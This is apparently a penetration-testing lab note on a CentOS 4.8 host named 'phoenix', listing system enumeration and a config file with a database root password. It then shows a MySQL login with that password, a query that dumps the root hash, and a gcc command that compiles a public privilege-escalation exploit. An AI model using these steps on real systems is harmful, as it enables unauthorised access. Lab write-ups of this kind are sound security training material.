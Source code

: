 * Hostname: **phoenix**
* Web Server: **Apache/2.0.52 (CentOS)**
* Programming Language: **PHP 4.3.9**

```
Linux version 2.6.9-89.EL (mockbuild@builder10.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-11)) #1 Mon Jun 22 12:19:40 EDT 2009
LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.8 (Final)
Release:        4.8
Codename:       Final
```


```
uname -a
Linux phoenix 2.6.9-89.EL #1 Mon Jun 22 12:19:40 EDT 2009 i686 athlon i386 GNU/Linux
```

**SMB**
```
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.33-0.17.el4)
|   Computer name: phoenix
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: phoenix
|_  System time: 2023-01-27T02:41:21-05:00
```

**config.php**
```
#/var/www/html/internal/advanced_comment_system/config.php

/* ######################## DATABASE ######################## */
  // Database server
  $ACS_CONFIG["db_server"] = "localhost";  
  // Database name
  $ACS_CONFIG["db_name"] = "acs";  
  // Database username
  $ACS_CONFIG["db_user"] = "root";
  // Database password
  $ACS_CONFIG["db_password"] = "aCs2009offsec";  
  // Database table to store comments
  // (will be created automatically)
  $ACS_CONFIG["db_table"] = "advanced_comment_system";
  // Admin Password
  $ACS_CONFIG["admin_password"] = "admin";             
                                                     
/* ##################### CONFIGURATION ###################### */
  $ACS_CONFIG["admin_password"] = "admin";
```

```shell
$ mysql -u root -paCs2009offsec -h 127.0.0.1
```

```SQL
SELECT password from USER WHERE user = 'root';
```

```
189c6ace38ba2318
```
![[10.11.1.8 - phoenix (done)/screenshots/db-root-password.png]]

```
# exploit: https://www.exploit-db.com/exploits/9542
gcc -m32 -Wl,--hash-style=both -o exploit 9542.c
```

![[phoenix-proof.png]]
